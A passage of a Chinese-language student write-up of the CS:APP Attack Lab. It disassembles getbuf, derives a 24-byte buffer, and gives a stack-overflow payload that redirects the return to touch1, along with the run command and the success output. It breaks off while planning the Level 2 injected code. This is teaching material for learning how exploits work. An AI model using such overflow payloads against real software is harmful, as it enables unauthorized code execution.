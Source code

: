 ```c
}
```
我们可以看出getbuf会从缓冲区读入数据存入buf数组中，而我就可以利用这个buf数组的大小限制对代码进行攻击，使得`getbuf`执行完后不返回到`test`，而是跳转到`touch1`从而达到目的。        
接下来需要找到`BUFFER_SIZE`的大小。因此查看getbuf函数的反汇编代码：

```x86asm
0000000000401768 <getbuf>:
401768:       48 83 ec 18             sub    $0x18,%rsp
40176c:       48 89 e7                mov    %rsp,%rdi
40176f:       e8 36 02 00 00          callq  4019aa <Gets>
401774:       b8 01 00 00 00          mov    $0x1,%eax
401779:       48 83 c4 18             add    $0x18,%rsp
40177d:       c3                      retq
40177e:       66 90                   xchg   %ax,%ax
```
看到一开始`%rsp`减少了0x18可以判断出，这个buffer的大小就是0x18个字节，即24个字节。也就是说，我需要将这24个字节填满，再注入一条`touch1`的返回地址即可将原返回地址覆盖，使得`getbuf`之后返回到`touch1`.

查看`touch1`的反汇编代码可以得到它的地址为`0x401780`。
因为实验环境为**小端机器**，所以我们可以构造输入的攻击代码段为：

```
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
80 17 40 00 00 00 00 00
```
按照attacklab.pdf中介绍的方法我们对`ctarget`进行攻击:
`./hex2raw < phase1 | ./ctarget`    

程序运行提示成功：

```
Cookie: 0x286582b8
Type string:Touch1!: You called touch1()
Valid solution for level 1 with target ctarget
PASS: Sent exploit string to server to be validated.
NICE JOB!
```

### Level 2
先来看touch2的代码：

```c
void touch2(unsigned val)
{
	vlevel = 2;       /* Part of validation protocol */
	if (val == cookie) {
	printf("Touch2!: You called touch2(0x%.8x)\n", val);
	validate(2); 
	}
	else {
	printf("Misfire: You called touch2(0x%.8x)\n", val);
	fail(2); 
	}
	exit(0); 
}
```
从这段代码看出来我需要为`touch2`设置一个参数val，它的值为target为我提供的cookie:`0x286582b8`，所以这次攻击与上一次唯一的区别就是我在返回到`touch2`之前必须要它的第一个参数设置为cookie的值。而函数的第一个参数都存在寄存器`%rdi`中，于是我需要构造一段代码将cookie的值存到`%rdi`中，并设置`%rsp`中新的返回地址为存储`touch2`地址的栈中地址：
